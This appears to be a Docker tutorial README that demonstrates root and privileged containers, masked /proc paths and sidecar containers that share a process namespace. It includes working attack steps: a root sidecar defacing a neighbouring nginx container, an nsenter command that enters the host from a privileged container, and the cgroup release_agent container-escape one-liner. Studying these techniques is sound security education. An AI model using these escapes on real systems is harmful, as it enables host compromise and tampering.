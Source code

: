 # Example 5 - Root user

Demonstrate root user and privilege inside the container.  

TODO:

* try and nsenter into the host
* try and list all the host processes from inside the container.

Refer to [../13_users_and_permissions/README.md](../13_users_and_permissions/README.md) for more examples.  

## Script to follow

Demonstrate internal users and privilege  

### Build the image (root and user)

```sh
# build root
docker build --no-cache -t roottest -f root.Dockerfile .
# build myuser
docker build --no-cache -t usertest -f user.Dockerfile .
```

### Run as privileged (root)

```sh
# roottest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as privileged (user)

```sh
# usertest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# even though privileged we can't 'cat timer_list'
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as non-privileged and inspect (root)

```sh
# roottest
docker run -it --rm --entrypoint "/bin/bash" --name roottest roottest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=roottest -q)

# should see in output
"MaskedPaths": [
    "/proc/asound",
    "/proc/acpi",
    "/proc/kcore",
    "/proc/keys",
    "/proc/latency_stats",
    "/proc/timer_list",
    "/proc/timer_stats",
    "/proc/sched_debug",
    "/proc/scsi",
    "/sys/firmware"
],
"ReadonlyPaths": [
    "/proc/bus",
    "/proc/fs",
    "/proc/irq",
    "/proc/sys",
    "/proc/sysrq-trigger"
]
```

### Run as non-privileged and inspect (myuser)

```sh
# usertest
docker run -it --rm --entrypoint "/bin/bash" --name usertest usertest

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=usertest -q)

```

## Modify another container using sidecar rootuser

Start an nginx container

```sh
# start nginx
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/

# open unprivileged non-root user sidecar
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" usertest
# Change the nginx static file (permission denied)
cat /proc/1/root/etc/nginx/nginx.conf

# open unprivileged root user sidecar (allows us to edit files)
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" roottest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

## Modify another container using privileged rootuser

```sh
# open privileged sidecar
docker run -it --rm --privileged --entrypoint "/bin/bash" roottest

# try and nsenter into the host
# try and list all the containers from inside.
```

## Get onto the docker desktop alpine host

```sh
# nsenter into the host docker alpine 
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Changing and reloading config  

```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Escape the container

This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```